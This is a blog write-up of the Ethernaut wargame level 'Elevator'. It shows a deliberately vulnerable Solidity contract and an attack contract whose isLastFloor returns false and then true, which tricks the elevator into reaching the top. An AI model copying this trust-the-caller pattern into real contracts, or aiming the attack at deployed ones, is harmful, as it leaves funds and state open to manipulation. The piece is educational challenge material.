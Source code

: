 ```yaml
---
layout: post
title: Ethernaut - 11. Elevator
date:  2022-08-29
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌑🌑🌑
> This elevator won't let you reach the top of your building. Right? <br /><br />
  Things that might help: 
  - Sometimes solidity is not good at keeping promises.
  - This Elevator expects to be used from a Building.

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) { 
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## Writeup
1. Get new instance.
2. Call methods
    ``` javascript
    await contract.top()
    // false
    await contract.floor().then(v=>v.toString())
    // 0
    ```
3. Create a contract which implement `isLastFloor`.
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import './11_Elevator.sol'; // level instance contract

    contract ElevatorAttack {
        bool result = true;
        function isLastFloor(uint) external returns (bool) {
            result = !result; 
            return(result); 
            // first time return false, second time return true 
        }

        function gogo(address _addr,uint _floor) public {
            Elevator elevator = Elevator(_addr);
            elevator.goTo(_floor);
        }
    }
    ```
4. Call `gogo` method
    <img src="https://i.imgur.com/vsuzhmx.png" style="width:300px;" >
5. Call methods
    ``` javascript 
    await contract.top()
    // true
    await contract.floor().then(v=>v.toString())
    // 10
    ```
6. Submit instance ξ( ✿＞◡❛)

## Reference
- [Solidity by example - Interface](https://solidity-by-example.org/interface/)